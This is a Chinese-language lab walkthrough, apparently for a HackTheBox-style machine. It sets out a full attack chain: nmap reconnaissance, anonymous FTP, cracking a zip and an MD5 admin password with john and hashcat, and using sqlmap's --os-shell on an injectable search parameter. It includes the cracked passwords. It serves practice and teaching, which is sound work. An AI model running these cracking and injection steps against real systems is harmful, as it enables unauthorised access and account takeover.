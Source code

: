 ### 一、操作步骤

1. nmap扫描

```shell
    nmap -A -sV 10.129.194.163
    # 出现端口21、22、80
    # 利用思路：
    #   1. 对ssh服务进行弱口令爆破，无效 
    #   2. 通过信息发现ftp可以匿名登录，发现存在文件`backup.zip`文件
    #   3. 登录10.129.194.163web页面，存在登录界面，尝试万能密码无效。
    #  假设`backup.zip`文件可能存在相关信息，但是需要密码进行解压
```

2. `backup.zip`文件破解

```
john 是一款大受欢迎的、免费的开源软件、基于字典的密码破解工具。用于在已知密文的情况下尝试破解出明文的破解密码软件，支持目前大多数的加密算法，如 DES 、 MD4 、 MD5 等
```

- 利用`zip2john`转换zip文件

```shell
    zip2john backup.zip >> hashs
```

- 使用`john`工具破解密码

```shell
    john hashs  # 获得密码741852963
```

- 解压`backup.zip`文件,发现文件`index.php`和`style.css`

```php
#index.php
session_start();
if(isset($_POST['username']) && isset($_POST['password'])) {
if($_POST['username'] === 'admin' && md5($_POST['password']) ===
"2cb42f8734ea607eefed3b70af13bbd3") {
$_SESSION['login'] = "true";
header("Location: dashboard.php");
```

> 从代码中发现，密码经过md5加密，需要解密

- 使用`hashcat`工具进行解密

```shell
    hashcat -a 0 -m 0 test.txt /usr/share/wordlists/rockyou.txt
    # -a 指定破解模式
    #       0  straight                   字典破解
    #       1  combination                将字典中密码进行组合（1 2>11 22 12 21）
    #       3  brute-force                使用指定掩码破解
    #       6  Hybrid Wordlist + Mask     字典+掩码破解
    #       7  Hybrid Mask  + Wordlist    掩码+字典破解
    # -m 指定哈希类型,0为md5
```

> 直接使用字典爆破，获得密码qwerty789,直接登录web从而进入下一步操作

3. sql注入

- 页面信息收集

```shell
    发现url：http://10.129.194.163/dashboard.php?search=f
    # 输入'发现报错，存在sql注入漏洞
```

- 使用sqlmap工具进行扫描

```shell
     sqlmap -u "http://10.129.194.163/dashboard.php?search=f" --cookie="PHPSESSID=4h3a937f4hobqtlb4v0o3iposd" --os-shell
     # --cookie 设置cookie值,用来进行验证
     # --os-shell 获取shell
     # -u 设置url链接
```

> 至此，我们已经获取webshell,为了保证连接稳定，使用反弹shell获取webshell

### 二、涉及知识点

1. 解密工具：hashcap和john
2. 弱密码
3. sqlmap工具使用
